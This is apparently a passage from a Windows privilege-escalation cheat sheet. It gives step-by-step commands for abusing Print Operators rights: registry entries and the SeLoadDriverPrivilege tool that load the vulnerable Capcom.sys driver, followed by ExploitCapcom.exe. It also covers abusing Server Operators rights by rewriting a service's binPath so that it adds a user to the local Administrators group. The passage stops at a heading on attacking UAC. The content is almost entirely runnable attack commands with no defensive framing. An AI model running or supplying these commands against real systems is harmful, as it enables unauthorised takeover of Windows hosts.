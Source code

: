 ### Print Operators

#### LoadDriver Privilege Escalation
```cmd
# Step 1: Add driver reference to registry
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

# Step 2: Enable privilege
EnableSeLoadDriverPrivilege.exe

# Step 3: Verify driver not loaded
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom

# Step 4: Exploit Capcom
.\ExploitCapcom.exe

# Automated approach
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
.\ExploitCapcom.exe

# Cleanup
reg delete HKCU\System\CurrentControlSet\Capcom
```

### Server Operators

#### Service Binary Path Modification
```cmd
# Step 1: Query service configuration
sc qc AppReadiness

# Step 2: Check service permissions
c:\Tools\PsService.exe security AppReadiness

# Step 3: Modify service binary path
sc config AppReadiness binPath= "cmd /c net localgroup Administrators <user> /add"

# Step 4: Start service
sc start AppReadiness

# Step 5: Verify admin membership
net localgroup Administrators
```

---

## 4. Attacking the OS

### User Account Control (UAC)
